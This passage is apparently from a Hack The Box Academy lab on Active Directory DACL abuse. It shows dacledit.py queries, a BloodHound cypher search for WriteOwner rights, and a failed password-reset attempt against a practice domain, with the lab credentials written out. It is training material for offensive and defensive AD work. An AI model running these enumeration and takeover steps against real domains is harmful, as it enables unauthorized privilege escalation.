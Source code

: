 # Query Lilia's DACL over Managers with dacledit.py


```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal lilia -target Managers -dc-ip 10.129.205.81 inlanefreight.local/lilia:DACLPass123
Impacket v0.9.25.dev1+20221216.150032.204c5b6b - Copyright 2021 SecureAuth Corporation

[*] Parsing DACL
[*] Printing parsed DACL
[*] Filtering results for SID (S-1-5-21-1267651629-1192007096-1618970724-5608)
```

However, we can use `BloodHound` to detect this relationship:

![lilia_owns_managers_bloodhound.jpg](https://academy.hackthebox.com/storage/modules/219/lilia_owns_managers_bloodhound.jpg)

---
---

# Identifying Vulnerable Objects

Suppose that we successfully gained access to `Pedro`, an account with `WriteOwner` over the user account `GPOADMIN`.

First, we will use `BloodHound` with a cypher query to identify those access rights. We include `n:User` so that `BloodHound` returns only paths created from a user object. We can do the same with groups; however, that will create too many paths, making it more challenging to analyze.

```cypher
MATCH p=((n:User)-[r:WriteOwner]->(m)) RETURN p
```

![writeowner_user.jpg](https://academy.hackthebox.com/storage/modules/219/writeowner_user.jpg)


```shell
anas21@htb[/htb]$ python3 examples/dacledit.py -principal pedro -target GPOAdmin -dc-ip 10.129.205.81 inlanefreight.local/pedro:SecuringAD01
```

Before editing the target's `Owner` and `DACL`, let us try to perform a password reset to confirm that we do not have such privileges:

# Password Reset Attempt to the GPOAdmin Account

```shell
anas21@htb[/htb]$ net rpc password GPOAdmin Mynewpassword1 -U inlanefreight.local/pedro%SecuringAD01 -S 10.129.205.81

Failed to set password for 'GPOAdmin' with error: Access is denied..
```

---
---